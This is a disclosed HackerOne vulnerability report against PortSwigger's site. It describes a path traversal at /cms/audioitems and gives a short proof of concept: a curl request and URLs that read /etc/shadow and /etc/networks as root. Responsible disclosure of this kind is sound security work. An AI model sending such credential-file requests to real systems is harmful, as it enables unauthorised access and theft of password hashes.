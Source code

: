 # [portswigger.net] Path Traversal al /cms/audioitems

## Report Details
- **Report ID**: 2424815
- **URL**: https://hackerone.com/reports/2424815
- **State**: Closed
- **Severity**: high
- **Submitted**: 2024-03-20T07:26:29.063Z
- **Disclosed**: 2024-04-04T14:51:59.272Z

## Reporter
- **Username**: 0xd0m7
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: portswigger

## Vulnerability Information
Prelude.
I wasn't going to report it, I thought it was your laboratory but after my first analysis this seems real.

**Description**
It's detected a path traversal as root user that allows to remote attackers see internal files as root.

`https://portswigger.net/cms/audioitems//etc/networks`
`https://portswigger.net/cms/audioitems//etc/shadow`


**Poc**
`curl -kis "https://portswigger.net/cms/audioitems//etc/shadow"`
{F3132191}

## Impact

Abilit to read internal files as root

## Attachments
- 2.png
